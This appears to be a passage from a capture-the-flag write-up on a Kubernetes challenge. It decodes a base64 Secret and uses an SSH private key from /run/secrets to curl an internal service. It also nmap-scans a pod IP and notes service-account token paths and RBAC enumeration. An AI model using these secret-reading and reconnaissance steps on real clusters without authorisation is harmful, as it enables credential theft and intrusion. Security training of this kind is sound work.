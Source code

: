 [^helm2_data_release]: http://technosophos.com/2017/03/23/how-helm-uses-configmaps-to-store-data.html
[^helm3_release_secret]: [https://stackoverflow.com/a/58693790](https://stackoverflow.com/a/58693790)

Running `kubectl get secret entry-secret-egg -o yaml` gives

```yaml
apiVersion: v1
data:
  EGG: SFVIVS1XSEFULUFOLUFNQVpJTkctSzhTLVNFQ1JFVFMtRUdH
kind: Secret
metadata:
  creationTimestamp: "2020-04-09T18:22:33Z"
  labels:
    app: entry
    chart: entry-0.1.0
    heritage: Helm
    release: entry
  name: entry-secret-egg
  namespace: foo
  resourceVersion: "66197"
  selfLink: /api/v1/namespaces/foo/secrets/entry-secret-egg
  uid: 40439be1-0861-4b28-a861-6da05fadace4
type: Opaque
```

Kubernetes secrets are just base64 encoded[^k8s_secrets_docs], so if we base64 decode the secret:
[^k8s_secrets_docs]: [https://kubernetes.io/docs/concepts/configuration/secret/](https://kubernetes.io/docs/concepts/configuration/secret/)

```bash
echo -n "SFVIVS1XSEFULUFOLUFNQVpJTkctSzhTLVNFQ1JFVFMtRUdH" | base64 -D
```

There's an egg! **HUHU-WHAT-AN-AMAZING-K8S-SECRETS-EGG**

### No NetworkPolicy blocking traffic from ssh to egg

I played around with many commands, but ended up stumbling upon the realization that I'm able to curl egg.foo.cluster.local from the ssh container as well, giving us our fourth egg!

```bash
ssh -p 6667 \
    -qi /run/secrets/kubernetes.io/ssh/private_key \
    user@ssh.foo.svc.cluster.local \
    'curl -s egg.foo.svc.cluster.local'
```

As expected, we finally can view the egg being served up by the egg container! **WOOOOOOOT-AN-EGG-FROM-A-HIDDEN-WEBPAGE-EGG**

There must be a NetworkPolicy of some sort in place preventing entry from talking to egg directly. I'm unable to reach joker from ssh though, so it seems we'll need to get a foothold elsewhere.

### honk service in bar namespace

By running `nmap 192.168.90.188`, which is the IP address of the honk container, I found that port 8080 is open...

```shell
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-11 16:59 UTC
Nmap scan report for 192-168-90-188.honk.bar.svc.cluster.local (192.168.90.188)
Host is up (0.00018s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 5.20 seconds
```


[^can-i_docs]: [https://kubernetes.io/docs/reference/access-authn-authz/authorization/#authorization-modules](https://kubernetes.io/docs/reference/access-authn-authz/authorization/#authorization-modules) I was curious about whether I could determine the RBAC I had for any/all namespaces, but I found that there's no way to do this. In some sense one could brute-force namespace names (granted some make sense to always check, such as as kube-system and default) and see what RBAC has been granted, but it's not that promising if you're just shooting in the dark.
[^k8s_networkpolicy_doc]: [https://kubernetes.io/docs/concepts/services-networking/network-policies/](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
[^k8s_token_docs]: [https://kubernetes.io/docs/tasks/access-application-cluster/access-cluster/#accessing-the-api-from-a-pod](https://kubernetes.io/docs/tasks/access-application-cluster/access-cluster/#accessing-the-api-from-a-pod) The documentation says `/var/run/secrets/kubernetes.io/serviceaccount`, but I found `/var/run` is just a symlink to `/run`
[^k8s_cluster_kubeadm_docs]: [https://kubernetes.io/docs/setup/production-environment/tools/kubeadm/create-cluster-kubeadm/](https://kubernetes.io/docs/setup/production-environment/tools/kubeadm/create-cluster-kubeadm/) See the section titled "Installing a Pod network add-on" for more details.
[^internal_traefik]: You just need to pass a header defining Host. For more information see the Kubernetes Ingress documentation: [https://kubernetes.io/docs/concepts/services-networking/ingress/](https://kubernetes.io/docs/concepts/services-networking/ingress/)
[^sshd_docs]: I really found this documentation helpful in understanding how SSHD works [https://www.ssh.com/ssh/sshd/#startup-and-roles-of-different-sshd-processes](https://www.ssh.com/ssh/sshd/#startup-and-roles-of-different-sshd-processes)